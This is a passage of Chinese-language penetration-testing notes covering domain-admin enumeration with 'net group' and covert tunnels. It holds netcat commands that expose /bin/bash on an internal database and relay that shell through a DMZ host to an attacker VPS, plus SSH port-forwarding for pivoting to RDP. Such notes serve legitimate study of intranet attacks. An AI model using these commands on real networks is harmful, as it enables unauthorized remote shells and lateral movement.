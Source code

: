 ```
#查询域管理用户net group "domain admins" /domain#查询管理员用户组net group "Enterprise Admins" /domain
```

### 2.6 定位域管理员

待补充

0x03 隐藏通信隧道技术
-------------

本章中大多数讲解的是如何在访问受限的网络环境中来去自如，部分网络代理技术之前的博客也有总结过。参考链接：端口转发工具大合集，这里主要再做些知识点的补充。

常用的隧道如下：  
网络层：TPv6 隧道 (socat/6tunnel/nt6tunnel)、ICMP 隧道 (icmpsh/PingTunnel/powershell icmp)、GRE 隧道  
传输层：TCP 隧道、UDP 隧道、常规端口转发  
应用层：SSH 隧道、HTTP 隧道、HTTS 隧道、DNS 隧道

### 3.1 传输层 nc 代理

实验环境：

```
攻击者VPS：192.168.1.4
DMZ服务器：192.168.1.1/1.1.1.116
内网数据库：1.1.1.200
```

代理目的：攻击者 VPS 能够管控内网数据库的终端

```
#攻击者VPSnc -lvp 3333#内网数据库nc -lvp 3333 -e /bin/bash#DMZ服务器nc -v 192.168.1.4 3333 -c "nc -v 1.1.1.200 3333"
```

### 3.2 应用层 SSH 代理

Copy

SSH 协议属于应用层协议，一个普通的 SSH 命令如下：`ssh root@192.168.1.1`

3.2.1 实验环境

Kali:192.168.1.4  
DMZ 服务器: 192.168.1.11/1.1.1.16  
数据库服务器：1.1.1.10

3.2.2 本地转发 (适合目标机能够接收内部流量的情况)

转发目的：以 DMZ 服务器为跳板，访问数据库服务的 3389 端口

```
#在Kali上执行，会要求输入DMZ服务器的SSH密码：ssh -CfNg -L 1153(本地端口):1.1.1.10:3389(目标主机) root@192.168.1.11(跳板机)
```

本地转发是将远程主机某个端口的数据转发到本地机器的指定端口，此时访问本地的 1153 端口，即可成功代理目标主机的 3389 端口流量。

3.2.3 远程转发 (适合跳板机能够发送内部流量的情况)

转发目的：以 DMZ 服务器为跳板，访问数据库服务的 3389 端口
